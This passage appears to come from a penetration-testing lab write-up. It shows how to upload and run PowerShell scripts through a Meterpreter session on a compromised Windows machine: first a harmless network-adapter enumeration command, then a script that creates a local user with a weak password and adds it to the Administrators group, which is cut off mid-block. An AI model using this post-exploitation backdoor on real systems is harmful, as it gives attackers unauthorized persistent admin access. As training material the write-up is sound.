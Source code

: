 ### 8.5 Uploading and Running PowerShell Scripts

Now I will create a very simple PowerShell script and run it on the compromised machine

make sure you are in the *meterpreter*.

I made a file called **getnic.ps1**

in the file is a **PowerShell** Command. 

```PowerShell
Get-NetAdapter -Name * -IncludeHidden
```

***PowerShell Script Breakdown***
`Get-NetAdapter -Name * -IncludeHidden`

`Get-NetAdapter`
- **Function**: Retrieves basic properties of network adapters.
- **Details**: Shows adapter name, interface description, status, MAC address, and speed.

`-Name *`
- **Parameter**: `-Name`
- **Function**: Specifies which network adapters to get.
- **Usage**: The use of `*` (asterisk) indicates a wildcard selection, meaning all network adapters are included.

`-IncludeHidden`
- **Parameter**: `-IncludeHidden`
- **Function**: Includes network adapters not visible in the Network Connections folder.
- **Usage**: Shows hidden adapters like those not in use, system devices, or virtual adapters.

This command is particularly useful for:
- Detailed network diagnostics.
- Configuration tasks in environments with virtual or hidden network devices.


We will now upload the file via the meterpreter 

![[Pasted image 20231113035249.png]]
> Figure 6 | uploading PowerShell script


Go back into shell from meterpreter to run the PowerShell script. shell | powershell

you can really have a lot of fun with this, you can even create a script that adds a user as administrator 

`ris:Windows`
```powershell
# PowerShell script to add a new administrator user on older versions of Windows

# Defining the username and password
$username = "00xNetrunner"
$password = "123456"

# Creating the new local user using net user
$createUser = net user $username $password /add
if ($LASTEXITCODE -eq 0) {
    Write-Host "User $username created successfully."
} else {
    Write-Host "Failed to create user $username."
    exit
}

# Adding the user to the Administrators group using net localgroup
$addToGroup = net localgroup Administrators $username /add
if ($LASTEXITCODE -eq 0) {
    Write-Host "User $username added to Administrators group successfully."
} else {
```